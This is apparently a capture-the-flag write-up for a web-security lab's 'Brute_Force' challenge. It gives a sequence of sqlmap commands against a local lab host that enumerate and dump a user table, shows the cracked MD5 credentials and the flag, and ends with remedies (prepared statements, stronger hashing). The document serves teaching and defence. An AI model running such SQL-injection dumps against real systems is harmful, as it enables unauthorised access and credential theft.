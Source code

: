 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlpmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_Brute_Force
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_Brute_Force -T db_default
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_Brute_Force -T db_default

> options [Y, Y, D, N];

usernames with cracked passwords

0. | username | password
1. | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)
2. | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)

If we login using these in http://192.168.43.251/index.php?page=signin we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
* Again preapred statements would have prevented us form getting this sort of information
* However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :\.

# Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc